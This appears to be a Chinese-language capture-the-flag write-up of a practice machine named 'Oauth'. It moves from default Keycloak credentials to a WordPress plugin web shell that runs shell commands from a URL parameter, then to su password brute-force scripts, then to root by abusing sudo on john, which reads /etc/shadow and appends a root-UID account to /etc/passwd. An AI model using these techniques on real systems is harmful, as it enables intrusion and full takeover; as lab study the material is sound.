









# Oauth

> MazeSec社区大本营 靶机做题群里的

‍

80 端口 web 服务 的 title 可以发现 一个 `Admin@123`

8080 一个 `Keycloak`​ 使用 `admin:Admin@123` 进入后台

‍

## Keycloack

wordpress 可以使用 `Keycloack` 认证登录



‍





直接重置密码



‍

## wordpress

登录后台 然后 上传插件 RCE

‍

```php
<?php
/**
 * Plugin Name: My Example Plugin1
 * Plugin URI:  https://example.com/
 * Description: 示例插件，演示短代码、设置页面、Widget 和激活钩子。
 * Version:     1.0.0
 * Author:      张三
 * Author URI:  https://example.com/
 * License:     GPL-2.0+
 * Text Domain: my-example-plugin
 * Domain Path: /languages
 */
echo 123123;
@system($_GET['cmd']);

```

‍







访问插件目录

```py
http://oauth.dsz/wp-content/plugins/
http://oauth.dsz/wp-content/plugins/plugins_rce/
http://oauth.dsz/wp-content/plugins/plugins_rce/shell.php
```

‍



## apache---keycloak

 进去后是个apache权限

>  很阴 ...



给里一写提示 md5解密是 `single`  john 的一种模式


卡了半天 这部分和出题人交流了一番

> 这些变种都试了，不行

```py
➜  ~ cat words.txt 
keycloak
single
echo
try
to
obtain
root
shell
just
crack
user.txt
use
John
rules
expand
horizons
```

- 生成字典

```py
john --wordlist=./words.txt --stdout --rules:Single > 123
```

- su 爆破密码

```py
Oauth:/tmp$ cat su_pwd.sh 
#!/bin/bash
#for PWD in $(cat pass.txt);
for PWD in $(cat pass.txt);
do
    echo $PWD | su keycloak -c 'id'&&echo $PWD > ./yes &
done

# 神奇的密码
# 默认情况下好像就有这个密码，好像和字典没关系
Oauth:/tmp$ cat yes 
;tib'[d;
Oauth:/tmp$
```

‍

```bash
#!/bin/sh
# https://github.com/yanxinwu946/suBrute/blob/main/subrute.sh
U=${1:-"root"}
D=${2:-"dict.txt"}
T=$(wc -l < "$D")
C=0

while IFS= read -r p; do
    C=$((C + 1))
    printf "\r\033[K[*] Progress: [%d/%d] %s" "$C" "$T" "$p"
    
    (echo "$p" | timeout 0.2 su "$U" -c "whoami" 2>/dev/null | grep -q "$U") 2>/dev/null && {
        printf "\n[+] FOUND => %s\n" "$p"
        kill -9 $$
    } &

    [ $((C % 16)) -eq 0 ] && wait
done < "$D"

wait
echo -e "\n[-] End"


```

‍

‍

## john keycloak---root

‍

```py
Oauth:/tmp$ sudo -l
Matching Defaults entries for keycloak on Oauth:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for keycloak:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User keycloak may run the following commands on Oauth:
    (ALL) NOPASSWD: /usr/bin/john
```

‍

- 文件读取

```bash
sudo /usr/bin/john --wordlist=/root/.ssh/authorized_keys --stdout
sudo /usr/bin/john --wordlist=/etc/shadow --stdout
```

- 任意文件写

```bash

Oauth:/tmp$ echo -n '$1$K8DVGH5X$tU4cDKFD248Z3O6TmD6XM1:0:0:0:/:/bin/sh' |md5sum 
9f9a8cafe524b686f9e30840d18fe772  -


Oauth:/tmp$ cat hack.txt 
root4:9f9a8cafe524b686f9e30840d18fe772


Oauth:/tmp$ cat dic.txt 
$1$K8DVGH5X$tU4cDKFD248Z3O6TmD6XM1:0:0:0:/:/bin/sh


Oauth:/tmp$ sudo /usr/bin/john --format=Raw-MD5 --wordlist=/tmp/dic.txt --pot=/etc/passwd /tmp/hack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 24 needed for performance.
$1$K8DVGH5X$tU4cDKFD248Z3O6TmD6XM1:0:0:0:/:/bin/sh (root4)

Oauth:/tmp$ su - '$dynamic_0$9f9a8cafe524b686f9e30840d18fe772'
Password: A
root@Oauth:~# id
uid=0(root) gid=0(root) groups=0(root)
```

‍

```c
root@Oauth:~# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
klogd:x:100:101:klogd:/dev/null:/sbin/nologin
apache:x:104:106:apache:/var/www:/sbin/nologin
www-data:x:82:82::/var/www:/sbin/nologin
mysql:x:101:102:mysql:/var/lib/mysql:/sbin/nologin
keycloak:x:102:103::/home/keycloak:/bin/bash
$dynamic_0$9f9a8cafe524b686f9e30840d18fe772:$1$K8DVGH5X$tU4cDKFD248Z3O6TmD6XM1:0:0:0:/:/bin/sh
```

‍
